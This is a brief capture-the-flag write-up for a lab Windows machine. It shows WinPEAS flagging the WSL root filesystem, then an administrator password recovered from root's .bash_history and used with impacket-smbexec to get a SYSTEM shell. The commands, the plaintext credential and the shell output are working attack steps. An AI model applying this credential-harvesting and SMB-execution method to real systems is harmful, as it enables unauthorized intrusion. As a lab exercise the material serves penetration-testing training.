

# 15 - PrivEsc

# Linux File System



Winpeas.exe warns us about the mounted linux file system. 

```powershell
PS C:\> C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root
PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root> dir


    Directory: C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalStat
    e\rootfs\root


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/22/2018   2:56 AM                filesystem                                                            
-a----        6/22/2018   3:09 AM           3112 .bashrc                                                               
-a----        6/22/2018   2:41 PM            398 .bash_history                                                         
-a----        6/21/2018   6:00 PM            148 .profile                                                              


PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root> type  .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit
```
Root user has .bash_history file. Administrator's smb access with credentials is logged.


* administrator:u6!4ZwgwOM#^OBf#Nwnh


# Shell
```powershell
┌─[user@parrot]─[10.10.14.14]─[~/htb/secnotes]
└──╼ $ impacket-smbexec administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\WINDOWS\system32>whoami
nt authority\system

C:\WINDOWS\system32>
```
